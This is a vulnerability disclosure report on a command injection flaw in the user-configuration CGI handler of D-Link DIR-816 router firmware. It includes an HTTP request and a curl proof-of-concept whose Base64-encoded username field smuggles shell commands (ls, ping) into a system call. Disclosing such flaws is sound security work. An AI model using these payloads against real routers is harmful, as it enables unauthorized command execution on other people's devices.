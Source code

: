 Vender ：D-Link

Firmware version:1.10 B05

Exploit Author: doudoudedi233@gmail.com

Vendor Homepage: http://www.dlink.com.cn/

Hardware Link:http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-816

# report

##### Describe

​	I found some vulnerabilities in the dir-816 750m11ac wireless router , Firmware version is DIR-816A2_FWv1.10CNB05_R1B011D88210

​	The HTTP request parameter is used in the handler function of  /goform/form2userconfig.cgi route, which can construct the user name string to delete the user function. This can lead to command injection through shell metacharacters.

​	If the user can configure the router, it may cause unconditional command execution If the user can configure the router, it may cause unconditional command execution.

##### Details

​	goahead Sub_4566E0 ruction in IDA view

<img src="./img/image-20210819130609706.png" alt="image-20210819130609706" style="zoom:50%;" />

​	Select user account configuration under the maintenance option of router configuration.

<img src="./img/image-20210819142952276.png" alt="image-20210819142952276" style="zoom:50%;" />

​	The modified user name is processed through the webdecode64 function and passed to the dosystem function in the form of formatted parameters. Therefore, the user name is constructed for command injection.

```
POST /goform/form2userconfig.cgi HTTP/1.1

Host: 192.168.33.9

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded

Content-Length: 183

Origin: http://192.168.33.9

Connection: close

Referer: http://192.168.33.9/d_userconfig.asp

Cookie: curShow=

Upgrade-Insecure-Requests: 1



username=Jztsczsn&privilege=2&oldpass=&newpass=MTIz&confpass=MTIz&deluser=%E5%88%A0%E9%99%A4&select=s0&hiddenpass=192.168.33.9&submit.htm%3Fuserconfig.htm=Send&tokenid=304089172
```

​	The function uses Base64 to decode the received user name, so Base64 encoding is required.

<img src="./img/image-20210819133402633.png" alt="image-20210819133402633" style="zoom:50%;" />

<img src="./img/image-20210819133845707.png" alt="image-20210819133845707" style="zoom:50%;" />

​	 this vulnerability requires the user to have permission to configure the router

##### POC&&EXP
```
curl -i -X POST http://192.168.33.9/goform/form2userconfig.cgi  -d "username=JztwaW5nIDE5Mi4xNTguMzMuMDsn&oldpass=123&newpass=123&confpass=123&deluser=Delete&select=s0&hiddenpass=&submit.htm%3Fuserconfig.htm=Send"
```
 It will decode our command Base64 and execute it 

##### TEST

​	First run our POC

<img src="./img/image-20210819160553286.png" alt="image-20210819160553286" style="zoom:50%;" />

​	GDB stops at the command we are about to execute

<img src="./img/image-20210819160627461.png" alt="image-20210819160627461" style="zoom:50%;" />

​	Successfully executed sh

<img src="./img/image-20210819161606757.png" alt="image-20210819161606757" style="zoom:50%;" />
